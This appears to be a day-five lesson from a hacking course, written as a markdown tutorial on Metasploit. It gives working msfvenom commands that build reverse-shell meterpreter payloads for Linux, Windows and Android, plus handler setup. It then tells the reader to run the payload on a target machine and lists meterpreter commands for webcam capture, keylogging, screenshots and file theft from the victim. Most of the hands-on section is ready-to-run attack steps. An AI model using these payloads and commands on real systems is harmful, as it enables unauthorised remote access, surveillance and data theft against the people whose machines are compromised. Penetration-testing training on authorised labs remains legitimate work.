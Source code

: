 #Day 5 (SYSTEM HACKING)

### What is System Hacking?

System hacking is itself a vast subject which consists of hacking the different software based technological systems such as laptops, desktops, etc. System hacking is defined as the compromise of computer systems and software to gain access to the target computer and steal or misuse their sensitive information. Here the malicious hacker exploits the weaknesses in a computer system or network to gain unauthorized access of its data or take illegal advantage of it.

### Tools Used

**Metasploit** : Metasploit is an open source cyber-security project that allows infosec professionals to use different penetration testing tools to discover remote software vulnerabilities. It also functions as an exploit module development platform.


### Hands on 
####1. Creating Metasploit Payloads(Files)
#####List payloads
```sh
msfvenom -l
```
#####Binaries
######Linux
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf -o shell.elf
```
######Windows
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -o shell.exe
```
######Android
```sh
msfvenom -p android/meterpreter/reverse_tcp -f apk LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f apk  -o shell.apk
```

####2. Setting Listner Up(Handler)
First open MSFCONSOLE, use the following command to open the metasploit console :

```sh
msfconsole
```
Once the console has started you need to create an appropriate handler to communicate with your payloads.
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```sh
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit -i -j
```

####3. Executing the Payload
Copy the payload file to our target Windows machine and execute the file. The executable causes the payload to be executed and connect back to the attacking machine (Kali Linux). Immediately, we receive a Meterpreter session on our Kali Linux. This is demonstrated by the Meterpreter > prompt as `Meterpreter session 1 opened `. Now we have a shell on the victim machine.

####4. Basic Commands on Meterpreter

To connect to a particular session type

```sh
sessions -i <sessions id which is open>
```

###### List of Basic Commands

1. **?** : Help menu
2. **shell** : The shell command will present you with a standard shell on the target system.
3. **webcam_list** : The webcam_list command when run from the Meterpreter shell, will display currently available web cams on the target host.
4. **webcam_snap** : The webcam_snap command grabs a picture from a connected web cam on the target system
```webcam_snap -i 1```
5. **keyscan_dump** : dumps the contents of the software keylogger
6. **keyscan_start** : starts the software keylogger when associated with a process such as Word or browser
7. **keyscan_stop** : stops the software keylogger
8. **screenshot** : grabs a screenshot of the meterpreter desktop
9. **download** : download a file from the victim system to the attacker system
10 . **upload** : upload a file from the attacker system to the victim

### Further Reading

1. [Metasploit](https://www.youtube.com/watch?v=Y6NI12OAMWc&list=PLF23494E2820B442B)